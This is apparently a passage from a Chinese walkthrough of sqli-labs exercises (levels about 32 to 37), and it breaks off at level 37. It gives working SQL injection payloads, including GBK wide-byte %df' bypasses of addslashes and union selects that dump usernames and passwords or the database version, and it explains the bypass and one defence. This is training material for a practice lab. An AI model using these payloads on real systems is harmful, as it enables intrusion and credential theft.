     闭合方式 '
    
    注入方式 联合，报错，布尔，延时
    
    攻击测试
    
        

> ?id=-1%df’ union select 1,2,(select group\_concat(username,password)-
> from users)–+

### 宽字节注入的原理：

PHP中编码为GBK，函数执行添加的是ASCII编码（添加的符号为“\\”），MYSQL默认字符集是GBK等宽字节字符集。如上图所示%df’被PHP转义，单引号被加上反斜杠\\，变成了%df’，其中\\的十六进制是%5C，那么现在%df’=%d%5C%27,如果程序的默认字符集是GBK等宽字节字符集，则MYSQL用GBK编码时，会认为%df%5C是一个宽字符，也就是縗，也就是说：%df\\’ = %df%5c%27=縗’，有了单引号就可以注入了。

\\前面再加一个\\（或单数个），变成\\ \\ ',这样\\被转义了，'逃出了限制。

注：要想防御宽字节注入，在使用 addslashes()时,我们需要将 mysql\_query 设置为 binary 的方式

## less-33

和上一题一个思路-
payload:

    ?id=-1%df' union select 1,2,(select group_concat(username,password)
     from users)--+
    
        

## less-34

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201218224554561.png)-
![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201218224608710.png)

## less-35

数字型：

id=0 union select 1,version(),3–+

## less-36

闭合方式：’-
payload：

    ?id=0%df' union select 1,version(),2--+
    
        

## less-37

post-
闭合：’-
payload:
